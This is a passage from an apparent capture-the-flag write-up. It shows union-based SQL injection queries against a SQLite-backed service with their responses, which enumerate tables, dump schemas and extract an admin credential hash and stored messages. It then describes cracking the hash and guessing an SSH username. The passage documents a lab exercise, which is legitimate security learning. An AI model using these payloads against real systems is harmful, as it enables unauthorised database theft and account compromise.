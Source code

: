 **Get Tables and Infos**

```bash
# Getting Tables
## query='0.0.3" UNION SELECT group_concat(name),2,3,4 from sqlite_schema-- -'
Sending...
Sent
Receiving...
Received '{"message": {"id": "sqlite_sequence,versions,users,info,reports,answers", "version": 2, "released_date": 3, "downloads": 4}}'

# Getting Column Names
## query='0.0.3" UNION SELECT sql,2,3,4 from sqlite_master WHERE type!="meta" AND sql NOT NULL AND name ="users"-- -'
Sending...
Sent
Receiving...
Received '{"message": {"id": "CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password DATE, role TEXT)", "version": 2, "released_date": 3, "downloads": 4}}'

## query='0.0.3" UNION SELECT sql,2,3,4 from sqlite_master WHERE type!="meta" AND sql NOT NULL AND name ="answers"-- -'
Sending...
Sent
Receiving...
Received '{"message": {"id": "CREATE TABLE answers (id INTEGER PRIMARY KEY AUTOINCREMENT, answered_by TEXT,  answer TEXT , answered_date DATE, status TEXT,FOREIGN KEY(id) REFERENCES reports(report_id))", "version": 2, "released_date": 3, "downloads": 4}}'

# Getting Content of Columns
## query='0.0.3" UNION SELECT username,password,3,4 from users-- -'
Sending...
Sent
Receiving...
Received '{"message": {"id": "admin", "version": "CENSORED", "released_date": 3, "downloads": 4}}'

## query='0.0.3" UNION SELECT group_concat(answered_by),group_concat(answer),3,4 from answers-- -'
Sending...
Sent
Receiving...
Received '{"message": {"id": "admin,admin", "version": "Hello Json,\n\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\n\nThomas Keller,Hello Mike,\n\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\n\nThomas Keller", "released_date": 3, "downloads": 4}}'
```

### SSH

This one was a bit tricky. The hash found could be easily cracked using [https://crackstation.net/](https://crackstation.net/).  The username wasn't that simple at first.  

Checking the answers table revealed that the admin is named **Thomas Keller**. So let's assume a standard naming convention which could be either **thomask** or **tkeller**. 

